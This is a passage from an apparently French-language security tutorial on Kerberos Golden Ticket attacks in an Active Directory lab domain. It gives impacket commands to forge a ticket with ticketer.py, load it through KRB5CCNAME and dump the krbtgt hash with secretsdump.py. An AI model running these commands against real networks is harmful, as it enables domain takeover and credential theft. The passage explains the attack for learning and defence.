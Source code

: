 Une fois ce ticket en mémoire, notre session est en mesure de demander un TGS pour n'importe quel [SPN](/service-principal-name-spn), par exemple pour `CIFS\DC-01.adsec.local` permettant de lire le contenu du partage `\\DC-01.adsec.local\$`

[![GT granted](/assets/uploads/2019/03/golden_ticket_access_granted.png)](/assets/uploads/2019/03/golden_ticket_access_granted.png)

Il est également possible de créer un Golden Ticket sous linux en utilisant [impaket](https://github.com/SecureAuthCorp/impacket), via l'outil `ticketer.py`.

```bash
ticketer.py -nthash ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -domain-sid S-1-5-21-1423455951-1752654185-1824483205 -domain adsec.local random_user
``` 

Il faut ensuite exporter le chemin du ticket dans une variable d'environnement spéciale `KRB5CCNAME`

```bash
export KRB5CCNAME='/chemin/vers/random_user.ccache'
```

Enfin, tous les outils de la suite `impacket` peuvent être utilisés avec ce ticket, via l'option `-k`

```bash
secretsdump.py -k DC-01.adsec.local -just-dc-ntlm -just-dc-user krbtgt
```
